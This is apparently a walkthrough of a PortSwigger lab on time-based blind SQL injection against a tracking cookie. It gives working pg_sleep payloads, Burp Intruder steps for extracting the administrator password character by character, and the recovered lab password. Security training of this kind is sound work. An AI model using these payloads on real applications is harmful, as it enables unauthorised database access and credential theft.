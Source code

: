 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Task
This lab has a blind SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query containing the value of the sent cookie.

The results of the SQL query are not returned, and the application does not react differently depending on whether the query returns any rows or throws an error. However, since the query is executed synchronously, we can trigger conditional delays to extract the information we need based on them.

There is another table in the database called `users`, which contains `username` and `password` columns. We need to exploit a blind SQL injection vulnerability to find out the password of the user `administrator`.

You must be logged in as `administrator` to complete the task.
## Solution
Go to the task site

![image](images/20241222194823.png)

Refresh the page, intercept the request via `Burp Suite` and send it to `Repeater`

![image](images/20241222195109.png)

Introduce SQL injection into `TrackerId`:
```SQL
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

![image](images/20241222195522.png)

The page loads for 10 seconds. This means that the SQL injection works. If we enter another query, the page will load instantly (changed 1=1 to 1=2)
```SQL
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
Now let's check if there is a user with the username `administrator`
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](images/20241222195942.png)

The page loads in 10 seconds. So there is such a user. Now let's find out the length of his password
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](images/20241222200114.png)


![image](images/20241222200148.png)

In total, there are 20 characters in the password of the user `administrator`.

Now we will pick up his password. For this we will use `Intruder`.
Sending a query
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
in `Intruder`:

![image](images/20241222200414.png)

This uses the `SUBSTRING()` function to extract one character from the password and check it against a specific value. Our attack will iterate over all positions and possible values, checking each one in turn.
In the `Payloads` tab, select `Simple list` and in `Payload settings [Simple list]` add characters from the `a-z` and `0-9` lists.

![image](images/20241222200746.png)

To monitor page load time, go to `Resource pool`.

![image](images/20241222200821.png)

Launch the attack. During the symbol search, one symbol will hang for 10 seconds and will not show the request code (200). This means that this symbol is correct.
Final password:
```Password
xjbip577r7gyzeo6kp0n
```
Log in as `administrator`

![image](images/20241222201748.png)


![image](images/20241222201756.png)
